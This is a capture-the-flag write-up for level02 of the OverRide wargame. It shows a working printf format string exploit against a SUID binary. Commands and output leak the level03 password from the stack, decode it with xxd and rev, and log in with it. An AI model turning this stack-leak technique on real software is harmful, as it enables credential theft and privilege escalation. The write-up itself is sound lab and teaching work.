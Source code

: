 # Level 2

## Vulnerability

printf() format string attack, read password on stack

## Context

We find a binary with owner ```level03``` and SUID.
```
level02@OverRide:~$ ls -l
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
```

When run it prompts user to log in with username and password. It exits if given incorrect password.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: me!
--[ Password: mine!
*****************************************
me! does not have access!
```

## Solution

### main() overview

Investigating with gdb we find no other functions apart from ```main()```. See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level02/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` reads the correct password for user ```level03```, from the ```/home/users/level03/.pass``` file, into a variable on the stack.

Then ```main()``` prompts user for username and password, reading from stdin.

Finally ```strncmp()``` compares the password input by user with the correct password. If the password is correct ```system("/bin/sh")``` opens a shell.

### Exploit

The key vulnerability is the username provided is then printed with ```printf()```. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.
```
level02@OverRide:~$ (python -c 'print("%26$p%25$p%24$p%23$p%22$p")'; python -c 'print("pass")'; cat) | ~/level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```

Converted to ASCII, and reversed to revert endian, we find our password.
```
level02@OverRide:~$ echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's log in to confirm this is the correct password.
```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
...
level03@OverRide:~$
```

## Recreate Exploited Binary

As user ```level03```, in ```/tmp```, create and compile ```level02_source.c```
```
level03@OverRide:/tmp$ gcc level02_source.c -o level02_source
```

Edit permissions including suid, then move the binary to home directory.
```
level03@OverRide:/tmp$ chmod u+s level02_source; chmod +wx ~; mv level02_source ~
```

Exit back to user ```level02```, then launch the source with the format string exploit. This time we find the password at arguments 38-42
```
level02@OverRide:~$ (python -c 'print("%42$p%41$p%40$p%39$p%38$p")'; python -c 'print("pass")'; cat) | /home/users/level03/level02_source
...
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```
